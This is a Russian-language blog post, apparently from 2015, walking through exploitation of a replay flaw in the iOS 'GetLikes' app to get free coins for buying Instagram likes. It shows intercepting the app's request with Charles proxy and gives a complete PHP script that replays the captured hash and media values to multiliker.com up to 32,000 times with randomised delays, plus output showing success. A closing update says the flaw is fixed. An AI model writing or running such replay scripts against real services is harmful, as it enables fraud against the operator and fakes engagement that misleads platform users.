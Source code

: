 ```yaml
---
title: Как «накрутить лайки» в Instagram, используя уязвимость приложения «GetLikes» для iOS
date: 2015-06-26T11:44:42+00:00
aliases:
  - /hack/how-get-likes-in-instagram-using-getlikes-vulnerability.html
featured_image: /images/posts/insta-hack-wide.jpg
tags:
  - hack
  - instagram
  - iOS
  - like
  - linux
  - php
  - proxy
---
```


> Данный пост является повторением действий, описанных хабраюзером [jo1n](https://habr.com/users/jo1n/) в его [посте](https://habr.com/post/261153/) на хабре.
>
> Disclaimer: Все действия носят сугубо познавательный характер. Более того - "накручивать лайки" - дело лишенное какого-либо смысла, всё рассмотренное ниже стоит рассматривать только как познавательный материал.

Для того, чтоб "накрутить лайки" мы будем использовать одну уязвимость, найденную тов. jo1n в приложении "[GetLikes][1]" для iOS, которая позволяет получать "монеты" в одноименном приложении без выполнения каких-либо действий (таких как установка "лайков" другим участникам приложения), и в последствии тратить их на то, чтоб нам к нашим фотографиям ставили массово эти самые "лайки".

<!--more-->

Рассмотрим весь процесс в виде нескольких этапов.

#### Подготовка

Для выполнения поставленной задачи нам потребуются:

  1. iPhone, на который есть возможность устанавливать приложения и изменять настройки сетевого подключения;
  2. Компьютер под управлением Windows (Linux / Mac OS);
  3. Подключение обоих устройств к одной WiFi точке;
  4. Подключение к сети интернет;

На компьютер скачиваем и устанавливаем [Сharles](http://www.charlesproxy.com/download/) - прокси-сервер для отладки web-приложений. После установки - запускаем (_не забываем **разрешить** доступ приложению к сети в настройках брандмауэра / межсетевого экрана_), и проверяем настройки порта и наличия статуса в правом нижнем углу "Recording":

![screenshot](https://hsto.org/files/44e/18f/38a/44e18f38ac914963b597148d64fbaa22.png)

#### Настройка

После этого - переходим к настройке iPhone на работу через наш прокси сервер. Для этого смотрим какой у нас IP присвоен компьютеру:

![screenshot](https://hsto.org/files/86b/99c/cae/86b99ccae5c74559af83db17f62aaf86.png)

И укажем полученные нами настройки в WiFi подключении iPhohe (`Настройки` &rarr; `Wi-Fi` &rarr; тап по `(i)` напротив активного подключения):

![screenshot](https://hsto.org/files/c24/323/086/c24323086faf4896bf16b405ae3705fd.png)

#### Установка приложения на iPhone

Далее - ставим приложение (поиск в App Store по словам `Get likes on Instagram` - третий результат) и авторизируемся в нем c помощью учетной записи от Instagram:

![screenshot](https://hsto.org/files/3af/065/7cc/3af0657cc9374a48b39908417b053ccb.png)

#### Получение запроса, который отправляет приложение

После этого очищаем текущую сессию в Charles, ставим 1 сердце, и смотрим что он нам покажет:

![screenshot](https://hsto.org/files/dee/165/898/dee1658989334baeb47ae4f56aa8aaaa.png)

- `hash` — наш токен, который обновляется при авторизации в приложении;
- `media` — номер изображения, которому мы поставили лайк;
- `answer` — ответ от сервера instagram (поставили ли мы лайк или нет?).

#### Эксплуатация уязвимости

Уязвимость сервиса заключается в том, что этот же самый запрос мы можем выполнить очень много раз, вне зависимости от того - поставили мы "сердце" или же нет - нам будет зачислена 1 "монета". Автоматизируем данный процесс, например, при помощи такого php-скрипта:

```php
<?php

function postData($url, $data){
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER,true);
  curl_setopt($curl, CURLOPT_POST, true);
  curl_setopt($curl, CURLOPT_POSTFIELDS, $data);
  curl_setopt($curl, CURLOPT_USERAGENT, "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_0 ".
    "like Mac OS X; en-us) AppleWebKit/532.9 (KHTML, like Gecko) Version/4.0.5 ".
    "Mobile/8A293 Safari/6531.22.7");
  $out = curl_exec($curl);
  curl_close($curl);
  return $out;
}

if(!isset($argv[1]) && !isset($argv[2])) {
  die("You must pass *hash* and *media* strings in arguments".PHP_EOL);
} else {
  $hash = $argv[1];
  $media = $argv[2];
  $likes_count = 32000;

  $i = 0;
  while ($i < $likes_count){
    $delay = rand(10, 2000) / 1000;
    $out = json_decode(postData('http://www.multiliker.com/service/like2/', 'hash='.$hash.
                                '&#038;media='.$media.'&#038;answer={"status":"ok"}'), true);
    echo '['.$i.'] '.$out['result'].': '.$out['message'].' (delay '.$delay.')'.PHP_EOL;
    if($out['result'] !== 'success') {
      die('Update *hash* and *media* values'.PHP_EOL);
    }
    $i++;
    sleep($delay);
  }
}
```

И запускаем его из консоли на нашем дедике (первый параметр - это `hash` из ответа выше, а второй, соответственно - `media`):

```bash
$ php ./likes_craft.php "a752a54b08158c8fdee279d8fc2fc494013c911c" "1015696816576458399_632650570"
[0] success: Like has been received (delay 0.146)
[1] success: Like has been received (delay 0.592)
[2] success: Like has been received (delay 0.761)
[3] success: Like has been received (delay 1.937)
[4] success: Like has been received (delay 0.088)
[5] success: Like has been received (delay 1.189)
[6] success: Like has been received (delay 0.023)
[7] success: Like has been received (delay 1.557)
...
```

После чего можем убрать настройки прокси-сервера, оставить скрипт работать в фоне, а в приложении наблюдать как появляются халявные "монеты". Можно теперь их тратить на накрутку сердец :)

Знают ли разработчики о наличии уязвимости? Да, знают. Когда исправят и исправят ли вообще? Не известно.

### Update. Хуяюшки, усё пофиксили. Надо было раньше тебе успевать

[1]:http://www.multiliker.com
